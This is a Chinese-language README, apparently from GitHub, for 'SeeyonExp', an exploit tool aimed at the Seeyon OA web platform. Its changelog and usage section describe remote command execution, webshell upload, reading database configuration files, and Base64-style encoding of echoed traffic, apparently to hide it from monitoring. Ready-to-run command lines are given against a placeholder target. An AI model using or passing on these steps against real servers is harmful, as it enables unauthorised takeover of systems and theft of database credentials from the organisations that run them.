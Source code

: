 # SeeyonExp

### 0x00 开发日志

V0.7 增加识别版本后无损检测漏洞功能，有那么点漏扫的意思

V0.6 增加数据库配置文件读取功能V0.5 增加回显流量加密功能，Base64与ascii结合，Base65

V0.4 解决命令执行for循环无法执行for之后Java代码的bug，分号的神奇作用

v0.3 增加文件上传功能，Base64不编码写入不了，黑名单校验

V0.2 命令可以在windows与Linux下执行，并支持https

V0.1 根据POC写出初步利用，可以执行命令，但是仅在windows与http下

### 0x01 使用方法

无损检验是否存在漏洞：java -jar seeyon.jar scan 

http/https://xxxx.com:port/seeyon 执行命令：java -jar seeyon.jar http/https://xxxx.com:port/seeyon cmd 

写入shell：java -jar seeyon.jar http/https://xxxx.com:port/seeyon shell srcFile desFile 

读取数据库配置文件：java -jar seeyon.jar http/https://xxxx.com:port/seeyon dataConf 

流量解码：java -jar seeyon.jar decode ciphertext 

流量编码：java -jar seeyon.jar encode Plaintext